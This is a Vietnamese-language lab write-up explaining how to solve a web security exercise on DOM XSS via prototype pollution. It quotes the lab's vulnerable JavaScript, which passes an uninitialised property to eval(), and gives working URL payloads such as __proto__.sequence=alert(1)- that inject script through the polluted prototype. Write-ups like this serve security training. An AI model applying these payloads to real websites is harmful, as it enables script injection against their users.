



# Lab: DOM XSS via an alternative prototype pollution vector

## Manual solution

Thử chèn `/?__proto__[foo]=bar` vào URL, sau đó kiểm tra trong console:


-> Xác nhận trang vẫn bị prototype pollution.

Kiểm tra mã nguồn thấy đoạn `/resources/js/searchLoggerAlternative.js`:

```javascript
async function logQuery(url, params) {
  try {
    await fetch(url, {
      method: "post",
      keepalive: true,
      body: JSON.stringify(params),
    });
  } catch (e) {
    console.error("Failed storing query");
  }
}

async function searchLogger() {
  window.macros = {};
  window.manager = {
    params: $.parseParams(new URL(location)),
    macro(property) {
      if (window.macros.hasOwnProperty(property)) return macros[property];
    },
  };
  let a = manager.sequence || 1;
  manager.sequence = a + 1;

  eval(
    "if(manager && manager.sequence){ manager.macro(" +
      manager.sequence +
      ") }",
  );

  if (manager.params && manager.params.search) {
    await logQuery("/logger", manager.params);
  }
}

window.addEventListener("load", searchLogger);
```

`manager.sequence` được đưa vào `eval()` nhưng không được khởi tạo giá trị mặc định trước.

-> thử với `/?__proto__.sequence=alert(1)` thì console báo lỗi:

```
Uncaught (in promise) SyntaxError: missing ) after argument list
    at searchLogger (searchLoggerAlternative.js:18:76)
```

Đoạn `manager.sequence = a + 1;` làm giá trị thành `alert(1)1`, nên biểu thức bị lỗi cú pháp.

-> đổi thành `/?__proto__.sequence=alert(1)-`

## DOM Invader solution





Thấy bị append thêm `1` thành `sequence1`.
-> đổi payload thành:

```
/?__proto__.sequence=alert%281%29-
```
